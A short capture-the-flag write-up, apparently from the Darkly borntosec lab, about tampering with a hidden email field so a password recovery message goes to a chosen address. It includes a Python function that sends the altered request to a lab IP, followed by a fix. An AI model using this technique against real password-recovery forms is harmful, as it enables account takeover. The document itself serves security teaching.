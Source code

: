 # Hidden field manipulation

### Introduction
Hidden field manipulation involves manipulating hidden fields in HTML to submit data that the user is not aware of or did not intend to submit.

### Procedure
By inspecting the recovery page, we observed a hidden field in the form request containing the email information. By altering the input value from the email address of the webmaster ``webmaster@borntosec.com`` to the email address of the admin ``admin@borntosec.com``, we can redirect the password recovery email to the admin instead of the webmaster.

### Program
To automate this process, we developed a Python program that sends a password recovery request using the admin's email, ``admin@borntosec.com``. This request is initiated by calling the ``try_recover`` function.
```python
def try_recover(mail: str):
	encoded_params = urllib.parse.urlencode({ 'page': 'recover' })

	url = 'http://192.168.56.2/?{}'.format(encoded_params)

	data = { 'mail': mail, 'Submit': 'Submit' }
	headers = { 'Content-Type': "application/x-www-form-urlencoded" }

	response = requests.post(url, data=data, headers=headers)

	return response.text
```

### How to fix
It is crucial for the service to prevent the disclosure of private information. In our case, the recovery email is considered private as it is the destination for the recovery email, and therefore, it should only be stored server-side to avoid being modified by the client.